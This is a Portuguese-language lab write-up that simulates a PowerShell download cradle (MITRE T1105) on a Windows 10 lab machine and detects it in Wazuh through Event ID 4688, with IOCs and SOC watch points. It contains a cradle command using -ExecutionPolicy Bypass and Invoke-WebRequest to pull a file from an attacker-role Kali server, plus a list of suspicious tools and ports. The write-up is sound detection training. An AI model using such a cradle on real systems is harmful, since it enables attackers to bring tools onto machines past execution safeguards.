







# Lab 06 — PowerShell Download Cradle Detection (T1105)

## MITRE ATT&CK
- **Tactic:** Command & Control
- **Technique:** T1105 — Ingress Tool Transfer
- **Detection:** Windows Security Event ID 4688 (Process Creation)

---

## Objetivo

Simular um download cradle via PowerShell, técnica amplamente usada por atacantes para transferir ferramentas ou payloads de um servidor externo para a máquina alvo, e detectar o comportamento através do Wazuh SIEM.

---

## Ambiente do Lab

| Máquina | Role | IP |
|---|---|---|
| Kali Linux | Attacker / C2 Server | 192.168.56.104 |
| Windows 10 | Target | — |
| Wazuh Server | SIEM | — |

---

## Explicação Técnica

Um **download cradle** é um comando curto executado diretamente na memória ou via linha de comando que faz o download de um arquivo ou script remoto e o executa ou salva localmente. É uma das técnicas mais utilizadas na fase de Command & Control e Execution de uma kill chain.

Neste lab, o atacante:
1. Hospeda um arquivo em um servidor HTTP simples no Kali
2. Executa um comando PowerShell no Windows com `Invoke-WebRequest` para baixar o arquivo
3. O Wazuh captura o Event ID 4688 com os argumentos completos da linha de comando, expondo o comportamento

O indicador crítico de detecção é o campo `commandLine` do evento 4688, que registra o processo `powershell.exe` sendo iniciado com flags suspeitas (`-ExecutionPolicy Bypass`) e uma URL apontando para um host externo.

---

## Passo a Passo do Ataque

### 1. Preparar o servidor HTTP no Kali

```bash
echo "simulation - download cradle test" > /tmp/payload.txt
cd /tmp
python3 -m http.server 8080
```

O servidor HTTP simula a infraestrutura C2. O arquivo `.txt` mantém o foco na telemetria sem acionar antivírus.



---

### 2. Confirmar o IP do Kali

```bash
ip a
```



---

### 3. Executar o Download Cradle no Windows

No Windows 10, abrir PowerShell e executar:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://192.168.56.104:8080/payload.txt' -OutFile 'C:\Users\Public\payload.txt'"
```

O flag `-ExecutionPolicy Bypass` é um indicador clássico de abuso de PowerShell. A URL aponta diretamente para o servidor do atacante.



---

### 4. Confirmar o arquivo baixado

```powershell
Get-Content C:\Users\Public\payload.txt
```



---

### 5. Evento 4688 detectado no Wazuh

No Wazuh Dashboard, o evento 4688 foi capturado com os seguintes campos relevantes:

- `data.win.system.eventID: 4688`
- `data.win.eventdata.newProcessName: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
- `data.win.eventdata.commandLine`: contendo `Invoke-WebRequest` e o IP `192.168.56.104`
- `data.win.eventdata.parentProcessName`: processo pai que iniciou o PowerShell



---

### 6. Detalhes completos do evento



---

### 7. Requisição recebida no servidor Kali

O log do servidor HTTP confirmou a requisição GET originada do Windows:

```
192.168.x.x - - [data hora] "GET /payload.txt HTTP/1.1" 200 -
```



---

## Indicadores de Comprometimento (IOCs)

| Indicador | Valor |
|---|---|
| Processo | `powershell.exe` |
| Flag suspeita | `-ExecutionPolicy Bypass` |
| Método | `Invoke-WebRequest` |
| Destino | `http://192.168.56.104:8080/payload.txt` |
| Arquivo baixado | `C:\Users\Public\payload.txt` |
| Event ID | `4688` |

---

## O que o SOC deve observar

- `powershell.exe` iniciado com `-ExecutionPolicy Bypass`
- `commandLine` contendo `Invoke-WebRequest`, `iwr`, `wget` ou `curl` apontando para IPs externos
- Download de arquivos em diretórios públicos como `C:\Users\Public\`
- Processo filho de `powershell.exe` com argumentos de rede
- Requisições HTTP para portas não convencionais (ex: 8080, 4444, 1337)

---

## Estrutura de Arquivos

```
lab-06-t1105-download-cradle/
├── README.md
└── images/
    ├── 01-kali-http-server.png
    ├── 02-kali-ip.png
    ├── 03-windows-powershell-execution.png
    ├── 04-windows-file-downloaded.png
    ├── 05-wazuh-4688-event.png
    ├── 06-wazuh-event-details.png
    └── 07-kali-http-request-received.png
```

---

## Referências

- [MITRE ATT&CK T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- [Windows Event ID 4688 — Process Creation](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4688)
- [Wazuh Documentation](https://documentation.wazuh.com)
